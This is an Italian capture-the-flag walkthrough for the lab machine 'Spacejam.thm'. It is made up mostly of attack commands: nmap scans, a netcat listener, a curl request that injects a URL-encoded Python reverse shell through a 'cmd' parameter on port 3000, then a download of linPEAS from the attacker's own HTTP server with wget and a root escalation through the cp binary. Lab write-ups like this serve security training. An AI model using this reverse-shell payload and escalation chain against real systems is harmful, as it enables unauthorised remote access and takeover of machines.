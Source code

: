### ENUM
partiamo con uno scan della macchina

```bash
nmap Spacejam.thm -sV -sC 
```

troviamo cosi la porta 3000 aperta(se non la trovate lanciate questo comando
```bash
nmap Spacejam.thm -sV -p-
```
mettiamoci in ascolto su una porta aperta da noi
```bash
nc -lvnp 4444
```

mandiamo una richiesta alla porta 3000 con una reverse shell
```bash
curl "Spacejam.thm:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<ilvostroip>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"
```

ecco la nostra shell sul primo terminale
## privesc
mettiamo linPEAS sulla macchina (scaricatevelo prima!!)

apriamo un server http sulla nostra macchina dove è contenuto linPEAS
```bash
python -m http.server 80
```

facciamo una richiesta sulla shell ottenuta prima tramite questo comando
```bash
wget http://ipvostro/linPEAS.sh
```

diamogli i giusti permessi
```bash
chmod +x linPEAS.sh
./linPEAS.sh
```

ecco la nostra vulnerabilità sul comando cp usiamo GTFO.BINS per capire che comando eseguire e siamo root


